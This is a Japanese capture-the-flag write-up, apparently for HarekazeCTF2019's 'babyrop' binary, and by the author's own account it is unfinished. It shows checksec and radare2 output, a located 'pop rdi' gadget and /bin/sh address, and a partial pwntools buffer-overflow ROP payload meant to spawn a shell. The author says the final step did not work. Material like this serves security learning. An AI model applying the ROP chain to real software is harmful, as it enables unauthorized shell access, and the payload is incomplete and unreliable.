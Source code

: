 # babyrop(Exploit未完成)

まず, fileコマンドを用いて, ファイルの状態をみる.
```
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=b5a3b2575c451140ec967fd78cf8a60f2b7ef17f, not stripped
```

checksecを用いて, このELFファイルのセキュリティ機構を表示します.
```
$ checksec babyrop
[*] '/home/vagrant/File/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

canaryがないのでBOFができそうです。<br>
セキュリティ機構については[ここ](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)から

次に, radare2でmain関数の逆アセンブルの結果をみます.

![main](./images/babyrop.png)

状況としては

- `edi`に, `echo`コマンドの文字列("echo -n \"What's your name? \")を格納<br>
  **(注: x86(64)において、`edi`(`rdi`)には関数の第一引数が入る)**
- `system("echo -n \"What's your name? \")`を実行し、名前を聞かれる.
- `scanf`を呼び出し, 任意サイズの文字列をスタック変数[`rbp-0x10`]に格納.
- `printf("Welcome to the Pwn World, %s!\n")`でメッセージ表示

ファイル名の通り、ROPを実現するためにもシェルを起動する`system("/bin/sh");`を実行する事を目標とする.

## シェルを奪う

mainの逆アセンブル結果から, `system`を呼び出す直前に, シェルコマンド文字列へのポインタを`edi`で指定した事がわかる.

よって, `edi`(`rdi`)に値を指定するROP Gadgetが必要となる. radare2を用いて出してみる.


`/R`を用いると導いてくれる
```
[0x004004e0]> /R?
|Usage: /R Search for ROP gadgets
| /R [filter-by-string]    Show gadgets
| /R/ [filter-by-regexp]   Show gadgets [regular expression]
| /Rl [filter-by-string]   Show gadgets in a linear manner
| /R/l [filter-by-regexp]  Show gadgets in a linear manner [regular expression]
| /Rj [filter-by-string]   JSON output
| /R/j [filter-by-regexp]  JSON output [regular expression]
| /Rk [select-by-class]    Query stored ROP gadgets
```

そして`rdi`の場所がわかる
```
[0x004004e0]> /R pop rdi
  0x00400683                 5f  pop rdi
  0x00400684                 c3  ret
```

また、`rdi`(`0x00400683`)に`/bin/sh`を渡すため、これもradare2を用いて求める。
```
[0x004004e0]> izz | grep /bin/sh
024 0x00001048 0x00601048   7   8 (.data) ascii /bin/sh
```
という事で、アドレス`0x00601048`に`/bin/sh`があることがわかった.

```
from pwn import *

payload = "A" * 0x20       # BOF
payload += p64(0x400683)   # pop rdi
payload += p64(0x601048)   # /bin/sh
payload += p64(0x004005e3) # call system

# すみません、ここはできませんでした
```

#### 参考
1. https://m412u.hatenablog.com/entry/2019/05/21/124929
2. https://madousho.hatenadiary.jp/entry/2019/05/20/015653
3. https://github.com/TeamHarekaze/HarekazeCTF2019-challenges/blob/master/baby_rop/README.mdv